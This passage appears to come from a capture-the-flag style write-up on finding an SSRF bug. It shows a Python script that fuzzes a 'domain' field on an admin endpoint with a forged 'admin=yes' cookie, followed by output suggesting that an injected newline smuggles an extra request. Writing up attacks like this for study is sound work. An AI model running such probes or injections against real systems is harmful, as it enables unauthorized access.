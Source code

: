 ## :memo: Getting a working SSRF PoC :memo:

When I attack an endpoint of interest, one of the first things I'll do is inject characters from `\x00` to `\x7f`
to determine if there is any filtering or odd behaviors in the feature.

Let's try it out against the `"domain"` value. I created a python script to automate the process.

```python
#!/usr/bin/env python2

import requests
import json

url = "http://admin.acme.org/"
headers = { "Cookie" : "admin=yes", "Content-Type" : "application/json" }


# For characters from 0x0 to 0x7f
for i in xrange(0x7f):
    # Insert the character in the middle of our domain
    domain = "212.te{}st.com".format(chr(i))

    # Encode it for JSON
    data = json.dumps(domain)

    # Create the json object to be sent
    data = '{{"domain" : {}}}'.format(data)

    # Send our payload
    response = requests.post(url, data=data, headers=headers)

    # Check the response
    print repr(domain), response.text
```

A couple of interesting results came out of this.
One of them being that we can't use any of `#%&?\` characters in our **domain name**.
But most importantly, do you notice anything _odd_ from this sample output?

```python
'212.te\x08st.com' {"next":"\/read.php?id=380"}
'212.te\tst.com' {"next":"\/read.php?id=381"}
'212.te\nst.com' {"next":"\/read.php?id=383"}
'212.te\x0bst.com' {"next":"\/read.php?id=384"}
'212.te\x0cst.com' {"next":"\/read.php?id=385"}
```

When we inject a newline (`\n`), the ID **skips from 381 to 383**! I wonder what happened to 382. :thinking:

---

Let's dig in deeper.
